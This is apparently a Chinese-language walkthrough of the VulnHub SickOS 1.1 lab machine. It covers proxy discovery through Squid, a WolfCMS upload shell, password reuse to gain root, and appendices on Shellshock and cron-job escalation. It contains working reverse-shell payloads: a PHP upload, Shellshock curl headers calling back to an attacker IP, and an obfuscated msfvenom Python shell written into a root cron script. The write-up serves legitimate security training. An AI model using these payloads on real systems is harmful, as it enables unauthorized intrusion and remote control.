# 前言

### 靶场介绍

SickOS 1.1 是 VulnHub 平台上一台以渗透测试为主题的入门级靶机，整体难度适中。靶机的核心考察点在于对非常规端口服务（HTTP 代理）的识别与利用，以及 CMS 漏洞的挖掘和凭据复用提权。

### 靶场信息

| 字段     | 值                                                |
| ------ | ------------------------------------------------ |
| 靶机名    | SickOS 1.1                                       |
| 靶机 IP  | 192.168.200.159                                  |
| 靶机 URL | https://www.vulnhub.com/entry/sickos-11,132/     |
| 下载（镜像） | https://download.vulnhub.com/sickos/sick0s1.1.7z |
| 目标     | 获取 Root 权限                                       |

### 涉及工具

- Nmap
- Dirsearch
- cURL
- nc
- MySQL

### 思维导图




---

# 1.信息收集

## 1.1 Nmap信息扫描

### 端口扫描

```bash
$ nmap -sT -p- --min-rate 10000 192.168.200.159 -oA ports
```

开放端口：`22,3128,8080`



扫描结果比较特殊，没有出现常见的 80 端口，反而出现了 3128 端口。查了一下，3128 是 Squid 代理服务的默认端口。

> **Squid 服务是什么：** Squid 是一款支持 HTTP、HTTPS、FTP 等协议的 Web 缓存代理。它通过缓存和重用频繁请求的网页来降低带宽占用并提升响应速度，同时具备完善的访问控制机制。Squid 可在包括 Windows 在内的大多数操作系统上运行，采用 GNU GPL 许可协议。

### 详细信息

```bash
$ nmap -sT -sV -sC -O -p22,3128,8080 192.168.200.159 -oA detail
```



### 漏洞扫描

```bash
$ nmap --script=vuln -p22,3128,8080 192.168.200.159 -oA vuln
```



### UDP 扫描

TCP 服务侧探测到的内容较少，可利用价值有限，补充进行 UDP 扫描。

```bash
$ nmap -sU --top-ports 20 192.168.200.159 -oA udp
```



提取开放端口后进行详细扫描：

```bash
$ nmap -sU -sV -sC -O -p53,67,68,69,123,135,137,138,139,161,162,445,500,514,520,631,1434,1900,4500,49152 192.168.200.159 -oA detail_udp
```


---

## 1.2 Web 探测

由扫描到的 3128 端口也是一个 Web 服务，直接访问 `http://192.168.200.159:3128/`，返回 squid/3.1.19 的错误页，无法正常浏览。

页面链接 URL 解码后内容如下：

```
mailto:webmaster?subject=CacheErrorInfo - ERR_INVALID_URL&body=CacheHost: localhost
ErrPage: ERR_INVALID_URL
Err: [none]
TimeStamp: Tue, 12 May 2026 17:27:05 GMT

ClientIP: 192.168.200.1

HTTP Request:
```



直接对 3128 端口进行目录扫描，没有找到有效内容：

```bash
$ dirsearch -u 'http://192.168.200.159:3128'
```



查阅资料后了解到，Squid 本身是一个代理服务器（参考：https://cloud.tencent.com/developer/article/2362188 ），这意味着可能需要通过它作为代理来访问靶机上的其他 Web 服务。在 Firefox 中配置代理指向 `192.168.200.159:3128` 后，果然成功访问到了原本无法直接访问的 Web 界面。





通过代理再次进行目录扫描（使用 `--proxy` 参数指定代理地址）：

```bash
$ dirsearch -u 'http://192.168.200.159' --proxy='http://192.168.200.159:3128'
[01:47:43] 200 -  109B  - /connect
[01:47:53] 200 -   58B  - /robots.txt    # <-- 关键发现
```



> **补充：curl 配置代理方式**
> ```bash
> # HTTP 代理
> curl -x http://proxy_host:port http://example.com
> ```

访问 `/robots.txt`，内容如下：

```
User-agent: *
Disallow: /
Dissalow: /wolfcms    # <-- 路径泄露
```

`robots.txt` 中拼写有误的 `Dissalow` 字段泄露了一个路径 `/wolfcms`，这是下一步渗透的突破口。

访问 `/connect` 的内容：

```python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

这段脚本暗示靶机上可能存在某个定时运行的服务，先记录备用，后续提权阶段留意。

---

# 2.权限立足

## 2.1 WolfCMS 渗透

访问 `robot.txt` 泄露的网站路径， `http://192.168.200.159/wolfcms/`，是一个博客主页。页面底部标注了 WolfCMS，文章发布时间约为 2015 年，由此判断这是一个较老版本的 CMS，存在已知漏洞的可能性较高。



搜索 WolfCMS 相关漏洞，找到 [Wolf CMS - Arbitrary File Upload / Execution](https://www.exploit-db.com/exploits/38000)，该漏洞允许在登录后台后上传任意文件并执行。利用路径为：

```
http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/
```

上传的文件可通过以下路径直接访问：

```
http://targetsite.com/wolfcms/public/hello.php
```

访问后台登录页，简单尝试万能密码无效，转而查询 WolfCMS 的默认凭据，得到 `admin:admin`，尝试后登入成功。





进入后台后，访问文件管理器：

```
http://192.168.200.159/wolfcms/?/admin/plugin/file_manager/browse/
```



先上传一张普通图片和一个 phpinfo 测试文件，验证上传功能是否正常。



测试图片可以正常访问：`http://192.168.200.159/wolfcms/public/test.jpg`


测试 PHP 文件可以正常执行：`http://192.168.200.159/wolfcms/public/test.php`



上传路径确认、PHP 执行已验证，接下来上传反弹 Shell：

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'"); ?>
```

Kali 开启监听：

```bash
$ sudo nc -lvnp 4444
```

访问 `http://192.168.200.159/wolfcms/public/shell.php` 触发代码执行，Kali 端成功接收到反弹连接：



---

# 3.提权

获得反弹 Shell 后，先确认当前的用户身份和系统基本信息：

```bash
www-data@SickOs:/var/www/wolfcms/public$ whoami
www-data
www-data@SickOs:/var/www/wolfcms/public$ uname -a
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux    # <-- 内核版本较旧，2014 年
www-data@SickOs:/var/www/wolfcms/public$ ip a
# ...（省略）inet 192.168.200.159/24
```

## 3.1 信息枚举

### sudo 权限

```bash
www-data@SickOs:/var/www/wolfcms/public$ sudo -l
sudo: no tty present and no askpass program specified
Sorry, try again.
sudo: 3 incorrect password attempts
```

当前为非交互式 Shell，无法正常执行 sudo，该路径暂时不可用。

### 计划任务

```bash
www-data@SickOs:/var/www/wolfcms/public$ cat /etc/crontab
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

均为系统默认任务，无可利用项。

### SUID 文件

```bash
www-data@SickOs:/$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/bin/sudo
/usr/bin/sudoedit
/usr/bin/passwd
/usr/bin/mtr
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/sbin/pppd
/usr/sbin/uuidd
/bin/ping6
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping
```

以上路径均为常规系统文件，无明显可利用项。转向配置文件查找凭据方向。

## 3.2 配置文件凭据提取

既然已经拿到了 WolfCMS 的 webshell，CMS 本身一定有数据库配置文件，里面大概率存有明文凭据。在 WolfCMS 目录下搜索配置文件：

```bash
www-data@SickOs:/var/www/wolfcms$ find . -name "*conf*"
```



在 `config.php` 中找到数据库连接配置，存有明文凭据：

```php
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');    # <-- 明文凭据
define('TABLE_PREFIX', '');
```

这是 MySQL 的凭证，不一定能直接用于 SSH。先用 Python 提升 Shell 交互性，再登入 MySQL 看看有没有其他有价值的信息：

```bash
www-data@SickOs:/var/www/wolfcms$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@SickOs:/var/www/wolfcms$ mysql -uroot -pjohn@123
```



查看 `wolf` 数据库的表结构：

```bash
mysql> show tables;
+-----------------+
| Tables_in_wolf  |
+-----------------+
| cron            |
| layout          |
| page            |
| page_part       |
| page_tag        |
| permission      |
| plugin_settings |
| role            |
| role_permission |
| secure_token    |
| setting         |
| snippet         |
| tag             |
| user            |
| user_role       |
+-----------------+
15 rows in set (0.00 sec)
```

重点关注了 `cron`、`permission`、`role`、`user` 这几个表，查看过后没有得到可用信息。

## 3.3 凭据复用与提权

在数据库里没有收获，于是我换了个思路，检查系统中有哪些可登录的用户或是拥有shell的用户，看看能不能用已有的密码复用：

```bash
www-data@SickOs:/$ cat /etc/passwd
# ...
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash    # <-- 普通用户，配有 bash
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

除 root 外，系统中还有一个名为 `sickos` 的普通用户。尝试用刚才从配置文件中拿到的 MySQL 密码 `john@123` 进行 SSH 登录：

```bash
$ ssh sickos@192.168.200.159
# 密码：john@123
```



密码复用成功，登录进来了。立刻检查 sudo 权限：



`sickos` 用户拥有完整的 sudo 权限（ALL:ALL），直接切换 root：

```bash
sickos@SickOs:~$ sudo su
```



成功获取 root shell。

---

# 4.总结

两个失败点，一个是浏览器搜索到 `Squid` 是代理服务，但完全没有想到访问 web 要通过代理去访问。

提权又失败了，猜到 config 里的配置可能有用，但是只尝试了 root 没有尝试多余的用户

尤其是还是除去 root 外唯一一个不是服务的账户我给漏掉了。

甚至想着用内核去提权，导致把系统搞崩溃。

---
# 5.补充

## 5.1 Shellshock 原理和利用

### 信息收集 — nikto 扫描

通过 nikto 扫描确认 Apache 版本，发现 Shellshock 漏洞线索：

```bash
$ sudo nikto -h 192.168.200.159 -useproxy http://192.168.200.159:3128
```



> Shellshock 是什么？
- https://fdlucifer.github.io/2020/04/02/shellshock-exploitation/
- https://en.wikipedia.org/wiki/Shellshock_(software_bug)

---

### Shellshock 漏洞验证

执行 Shellshock PoC，验证可以执行 `whoami` 命令：

```bash
curl --proxy http://192.168.200.159:3128 \
     -H "User-Agent: () { :; }; echo; /usr/bin/whoami" \
     http://192.168.200.159/cgi-bin/status
```

各部分作用说明：

| 部分 | 作用 |
|---|---|
| `--proxy http://192.168.200.159:3128` | 通过代理（如 Squid）转发请求，绕过直接访问限制 |
| `-H "User-Agent: ..."` | 自定义请求头，将 payload 注入 User-Agent |
| `() { :; };` | 伪造一个空函数定义，触发 Bash 的解析逻辑 |
| `echo;` | 输出一个空行，**分隔 HTTP 响应头与响应体**，否则输出会被当作响应头解析报错 |
| `/usr/bin/whoami` | 实际想执行的命令 |
| `/cgi-bin/status` | 目标是 CGI 脚本 |

#### 为什么是 CGI + User-Agent？

```
HTTP 请求到达服务器
       ↓
Apache/Nginx 调用 CGI 脚本（如 /cgi-bin/status）
       ↓
Web 服务器将 HTTP Header 转换成环境变量传给 Bash
       ↓
User-Agent → HTTP_USER_AGENT 环境变量
       ↓
漏洞版 Bash 解析该环境变量时，执行了函数定义后的命令
       ↓
whoami 被执行，结果返回在响应体中
```

**关键链路**：`HTTP Header → 环境变量 → Bash 解析 → RCE`

CGI 机制天然将 HTTP 请求头映射为环境变量，这正是 ShellShock 在 Web 场景下最经典的利用方式。除了 `User-Agent`，`Referer`、`Cookie` 等任意能变成环境变量的 Header 都可以作为注入点。

---

#### `() { :; };` 逐字符拆解

```
() { :; };
│   │ │  │
│   │ │  └─ 函数定义结束的分隔符，后面跟真正要执行的命令
│   │ └──── : 是 bash 内置的"空操作"命令，相当于 true，什么都不做
│   └────── { :; } 是函数体
└────────── () 匿名函数，没有函数名
```

完整语义：**定义一个什么都不做的匿名函数，然后用 `;` 结束定义，后面跟上真实 payload**

> `:` 是 Bash 的内置空命令，就是什么都不做，永远返回成功（exit code 0）。

---

### 构造完整 Payload

比较专业的写法，手动声明响应类型，防止某些 CGI 环境报 500 错误：

```bash
curl --proxy http://192.168.200.159:3128 \
  -H "User-Agent: () { :; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/whoami" \
  http://192.168.200.159/cgi-bin/status
```

- `echo 'Content-Type: text/plain'`：手动声明响应类型，某些 CGI 环境不加这个会报 500 错误
- `echo; echo;`：两个空行确保响应头和响应体分隔干净

构造反弹 shell payload：

```bash
curl --proxy http://192.168.200.159:3128 \
  -H "User-Agent: () { :; }; echo 'Content-Type: text/plain'; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'" \
  http://192.168.200.159/cgi-bin/status
```





---

## 5.2 计划任务提权（另一种路径）

### 发现可写计划任务

```bash
www-data@SickOs:/etc$ ls -liah | grep cron
131439 drwxr-xr-x  2 root root   4.0K Dec  5  2015 cron.d
131120 drwxr-xr-x  2 root root   4.0K Sep 22  2015 cron.daily
131443 drwxr-xr-x  2 root root   4.0K Sep 22  2015 cron.hourly
131431 drwxr-xr-x  2 root root   4.0K Sep 22  2015 cron.monthly
131433 drwxr-xr-x  2 root root   4.0K Sep 22  2015 cron.weekly
131437 -rw-r--r--  1 root root    722 Jun 20  2012 crontab

www-data@SickOs:/etc$ cat cron.d/automate
* * * * * root /usr/bin/python /var/www/connect.py  # <-- 每分钟以 root 身份执行
```

每分钟 root 会执行 `/var/www/connect.py`，而该文件 www-data 可写。

> Linux 计划任务详解参考：0x005-Linux 计划任务详解

---

### 生成反弹 shell Payload

```bash
$ sudo msfvenom -p cmd/unix/reverse_python Lhost=192.168.200.142 lport=4443 -f raw
```



---

### 写入恶意 connect.py

将 msfvenom 生成的 payload 覆盖写入目标文件：

```bash
www-data@SickOs:/var/www$ cat > /var/www/connect.py << 'EOF'
#!/usr/bin/python
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqNkFELgjAQx7/K2NMGMd2SKGIPEgYRFaTvkmuhZNvw5vcPUxR78h7uuLvf3f+46uNs4xFY9dYeDbb6eWgL11ilAeZ1O+R7hEoLXmK+E4xvtkyEIeORwGO7Wy2jaD0WQPZCrA9kyOJjfrom2Z9830tvh3OeZvckvtBpD1PWGK08Id0J88FOlU6sBfZsnSDAXlWtjSV0jofLUb4cFRPq5PRJph51TXBQVCaAEtMvi61esQ==')[0])))
EOF
```



等待约 1 分钟，计划任务触发，收到 root shell：




